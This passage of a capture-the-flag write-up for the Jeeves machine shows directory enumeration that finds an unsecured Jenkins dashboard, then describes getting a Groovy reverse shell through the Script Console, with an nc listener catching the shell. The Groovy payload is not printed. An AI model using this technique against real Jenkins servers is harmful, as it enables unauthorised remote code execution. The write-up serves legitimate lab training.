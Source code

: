 ```
```

However, I did find an interesting directory on the port 50000 website.

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 50 -C 404 -n
                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.63:50000
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       11l       26w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://10.10.10.63:50000/askjeeves => http://10.10.10.63:50000/askjeeves/
[####################] - 2m    119601/119601  0s      found:1       errors:0      
[####################] - 2m    119601/119601  1048/s  http://10.10.10.63:50000/
```

We find a Jenkins dashboard.

![Jenkins Server](/img/jeeves/jenkins_web.png)

Jenkins is an open source CI/CD server. In this case, anonymous users have full access to the dashboard. This happens when the Jenkins authorization strategy is set to Unsecured. After compromising the machine, I confirmed this was the case by checking ```config.xml``` and finding the unsecured authorization strategy in use. 

```<authorizationStrategy class="hudson.security.AuthorizationStrategy$Unsecured"/>```


## Foothold
We can leverage our permissions to access the Script Console by going to "Mange Jenkins" > "Script Console". 

![Jenkins Script Console](/img/jeeves/script_console.png)

Here we can execute a Groovy code to get a reverse shell. I got mine from revshells, but it is worth noting that Java shells also work because Groovy is a superset of Java and also runs on the JVM.

```
┌──(kali㉿kali)-[/tmp]
└─$ rlwrap nc -nvlp 8000
listening on [any] 8000 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.63] 49681
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.
